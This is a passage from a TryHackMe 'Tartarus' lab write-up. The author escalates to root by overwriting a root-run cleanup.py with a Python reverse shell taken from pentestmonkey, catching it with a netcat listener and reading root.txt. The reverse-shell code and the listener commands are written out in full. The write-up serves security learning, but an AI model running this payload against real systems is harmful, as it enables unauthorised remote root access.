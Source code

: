 ```highlight
#
d4rckh@ubuntu-xenial:/home/d4rckh$ 
```

Perfect, so that script is being run by root. Lets modify to provide us with another reverses shell.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
```

First start another netcat listener.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py 
# -*- coding: utf-8 -*-
#!/usr/bin/env python

import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<HIDDEN>",8080))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

I grabbed the python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and replaced the code in the script. Now I just need to wait for the reverse shell.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.30.144] 33596
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root/
# cat root.txt
7e055812184a5fa<HIDDEN>
# 
```

Root dance! 

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

